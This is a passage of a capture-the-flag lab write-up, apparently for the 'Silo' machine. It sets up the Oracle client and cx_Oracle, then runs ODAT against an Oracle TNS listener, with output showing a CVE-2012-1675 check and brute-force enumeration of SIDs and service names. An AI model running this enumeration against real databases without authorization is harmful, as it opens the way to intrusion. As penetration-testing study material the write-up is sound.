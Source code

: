 ```bash
# content of oracle.conf
/usr/lib/oracle/19.6/client64/lib/
/usr/lib/oracle/19.3/client64/lib/
```

```bash
# Update the ldpath using
sudo ldconfig
# Install _CX_Oracle
sudo -s
source /etc/profile
pip3 install cx_Oracle
# test if all is good
python3 -c 'import cx_Oracle'
```

![[Silo-02.png]]

### Guess SID

Ok, test will get no fail message, that means we install enviroment successfully.

```bash
# run the script
python3 odat.py all -s 10.10.10.82 -p 1521
```
![[Silo-03.png]]

```txt
# python3 odat.py all -s 10.10.10.82 -p 1521
[+] Checking if target 10.10.10.82:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.10.10.82:1521 is well configured. Continue...

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?                                                                                                     
[+] Impossible to know if target is vulnerable to a remote TNS poisoning because SID is not given.

[2] (10.10.10.82:1521): Searching valid SIDs                                                                                                                                   
[2.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...      
[2.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
[2.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid SID. Continue...      
[+] SIDs found on the 10.10.10.82:1521 server: XE

[3] (10.10.10.82:1521): Searching valid Service Names                                                                                                                          
[3.1] Searching valid Service Names thanks to a well known Service Name list on the 10.10.10.82:1521 server
[+] 'XE' is a valid Service Name. Continue...                                       
[+] 'XEXDB' is a valid Service Name. Continue...                                    
100% 
[3.2] Searching valid Service Names thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% 
[3.3] Searching valid Service Names thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid Service Name. Continue...                                                      | ETA:  00:00:44 
100% Time: 00:06:51 
[+] Service Name(s) found on the 10.10.10.82:1521 server: XE,XEXDB
[!] Notice: SID 'XE' found. Service Name 'XE' found too: Identical database instance. Removing Service Name 'XE' from Service Name list in order to don't do same checks twice
```